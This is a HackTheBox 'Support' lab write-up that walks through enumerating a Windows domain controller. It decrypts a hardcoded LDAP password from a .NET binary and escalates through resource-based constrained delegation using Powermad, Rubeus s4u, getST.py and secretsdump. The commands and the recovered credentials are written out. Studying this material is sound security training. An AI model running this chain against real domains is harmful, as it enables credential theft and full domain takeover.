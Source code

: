 # HackTheBox - Support

## NMAP

```bash
Nmap scan report for 10.10.11.174
Host is up (0.14s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION 
53/tcp   open  domain? 
| fingerprint-strings:                                                 
|   DNSVersionBindReqTCP: 
|     version                                                          
|_    bind                                                             
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-07-30 19:01:23Z)   
135/tcp  open  msrpc         Microsoft Windows RPC           
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn    
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped

```

From the nmap scan we can see port 88 is running which means this is a domain controller, we can also see the domain name `support.htb` so lets' add this in `/etc/hosts` file

<img src="https://i.imgur.com/As2uue1.png"/>

## PORT 139/445 (SMB)

Checking for null authenttication on smb, we can see few shares

<img src="https://i.imgur.com/J7mAkZ4.png"/>

Accessing `support-tools` share we can see some tools there like wireshark, putty,sysinternals and etc

<img src="https://i.imgur.com/We2ylPK.png"/>

I tried downloading `SysinternalsSuite.zip` with `get ` but it wasn't working maybe there's a limit to transfer file with larget size but this was around 48 MB, it could be timing as it's taking some to time to transfer the file and the default time out for smbclient is 20 seconds

<img src="https://i.imgur.com/am4fQL6.png"/>

<img src="https://i.imgur.com/t5770tM.png"/>

After increasing timeout, the transfer worked

<img src="https://i.imgur.com/j1seChN.png"/>

But that archive didn't had anything as I was expecting it to have something, moving on to `UserInfo.exe.zip`

<img src="https://i.imgur.com/eeCFBGY.png"/>

This has dll and exe which we can try to analyze with either `ILspy` or `dnspy` and for that let's move to windows machine

On opening `UserInfo.exe` with ILspy we can find the username `support` in `LdapQuery` function also we can see another function being called `getPassword` which returns the password, we can also get the username which is `ldap`

<img src="https://i.imgur.com/W1XDOlT.png"/>


Checking the getPassword function we can see how it's returning the plain text password for support user by using the value from `enc_password` and the `key`

<img src="https://i.imgur.com/0DfQ7hR.png"/>


<img src="https://i.imgur.com/TNVnuCB.png"/>

We can get the plain text password by simply printing the string returned from the function 

```c#
using System;
using System.Text;
namespace uwu {
	class Program {
		static void Main(string[] args) {
			string enc_password="0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
			byte[] key = Encoding.ASCII.GetBytes("armando");
			byte[] array = Convert.FromBase64String(enc_password);
			byte[] array2 = array;
			for (int i = 0; i < array.Length; i++)
			{
				array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
			}
			Console.WriteLine(Encoding.Default.GetString(array2));
		}
	}
}
```

<img src="https://i.imgur.com/rV2r3l5.png"/>

The credentials can also be retrieved by running `userinfo.exe` and sniffing the packets with wireshark on the interface

<img src="https://i.imgur.com/U0Bpp1e.png"/>

<img src="https://i.imgur.com/HbxWFmC.png"/>

## Foothold

Having the credentials we can try to dump usernames from `windapsearch`

```bash
windapsearch -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --dc 10.10.11.174
 --module users
```

<img src="https://i.imgur.com/ZIbwMy9.png"/>

The usernames can be sorted with `awk`

```bash
windapsearch -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --dc 10.10.11.174 --module users | grep "sAMAccountName" | awk -F ': ' '{print $2}' > user_names.txt
```

<img src="https://i.imgur.com/vCDkO2O.png"/>

Having the usernames, we can try password spary with `kerbrute` 


<img src="https://i.imgur.com/sNzroAP.png"/>

Using windapsearach with `--full` option we can list every attribute set on user objects which will show the password for support user

<img src="https://i.imgur.com/oT5d2Dn.png"/>

The credentials can be verified with cme on winrm

<img src="https://i.imgur.com/QBtrMtR.png"/>

This shows `Pwn3d!` which means that we can use the credentials on winrm to get a shell

<img src="https://i.imgur.com/23YqMw3.png"/>

Having a shell I ran `PowerUp` script which didn't showed any thing

<img src="https://i.imgur.com/X2okU7Y.png"/>

Next I tried using `Sharphound` to gather domain data

<img src="https://i.imgur.com/xIhSr31.png"/>

<img src="https://i.imgur.com/6nMP9aJ.png"/>

# Privilege Escalation
Uploading json files to bloodhound, `Shared Support Account` group which support is a member of has `Generical All` on the domain controller

<img src="https://i.imgur.com/3ggXLBv.png"/>

This means we have can have complete control over the domain controller by first adding a new computer account with `Powermad` and abusing write privilege on `dc.support.htb` to add `msDS-AllowedToActOnBehalfOfOtherIdentity` which will allow our new machine account to impersonate as any user from the domain to access the domain controller

```bash
New-MachineAccount -MachineAccount UwU -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Ver
bose
```

<img src="https://i.imgur.com/5AG76q2.png"/>

Using `Active Directory Module` we can set `msDS-AllowedToActOnBehalfOfOtherIdentity` 

```bash
Set-ADComputer dc -PrincipalsAllowedToDelegateToAccount UwU$
Get-ADComputer dc -Properties PrincipalsAllowedToDelegateToAccount
```

<img src="https://i.imgur.com/dTUEiHK.png"/>

Now to get a S4U hash to impersonate as administrator with `Rubeus`

<img src="https://i.imgur.com/MKV5nyL.png"/>

```
Rubeus.exe s4u /user:UwU$ /password:123456 /domain:support.htb /impersonateuser:administrator /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /msdsspn:host/dc.support.htb /ptt
```

<img src="https://i.imgur.com/3WjzBz8.png"/>

Even tho we have injected the impersonated ticket for administrator with `/ptt` pass the ticket still we won't be able to access `c$` share or launch cmd with psexec as we need local administrator to do that

<img src="https://i.imgur.com/I0AJ8TI.png"/>

So instead we can copy the the ticket from rubeus which gets generated in `.kirbi` format which we can conver into `.ccache` and use it with impacket

```
Rubeus.exe s4u /user:UwU$ /password:123456 /domain:support.htb /impersonateuser:administrator /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /msdsspn:host/dc.support.htb /nowrap
```

<img src="https://i.imgur.com/CT5hMkI.png"/>

Copy the hash, base64 decode it and covert it with `ticketConverter.py`

<img src="https://i.imgur.com/GsplavY.png"/>

<img src="https://i.imgur.com/sKKq9Q0.png"/>

<img src="https://i.imgur.com/5sGRymK.png"/>


<img src="https://i.imgur.com/nSUkuPN.png"/>

Or we can request a service ticket with impacket's `getST`  and use either `psexec` , `wmiexec` or `smbexec` to get a shell

```bash
getST.py -spn cifs/dc.support.htb support.htb/UwU\$ -impersonate administrator
```

<img src="https://i.imgur.com/Z98vw7A.png"/>

<img src="https://i.imgur.com/YsctOpL.png"/>

<img src="https://i.imgur.com/GU4bdwZ.png"/>

Running `secretsdump.py` to dump NTDS.dit which contains domain user's hashes

<img src="https://i.imgur.com/6bB8YSy.png"/>

With the administrator's hash we can also perform `pass the hash`

<img src="https://i.imgur.com/d9PCh47.png"/>

## References
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation
- https://pentestlab.blog/2021/10/18/resource-based-constrained-delegation/

